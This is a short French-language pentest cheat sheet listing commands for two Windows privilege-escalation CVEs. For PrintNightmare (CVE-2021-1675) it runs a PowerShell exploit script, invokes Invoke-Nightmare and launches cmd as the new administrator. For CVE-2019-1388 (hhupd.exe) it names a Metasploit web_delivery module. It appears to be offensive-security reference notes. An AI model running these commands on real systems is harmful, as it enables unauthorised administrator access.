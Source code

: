 # CVEs

## CVE-2021-1675

Vulnerabiliter PrintNightmare LPE qui permet d'elever ses privilege dans un OS Windows : 

```cs
. .\CVE-2021-1675.ps1
Invoke-Nightmare
```

Démarrer un cmd en tant que notre nouvelle administrateur : 

```c
Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential <USER>
```

## CVE-2019-1388

Le fichier exécutable `hhupd.exe` permet d'exploiter cette vulnérabilité CVE

```sh
use exploit/multi/script/web_delivery
```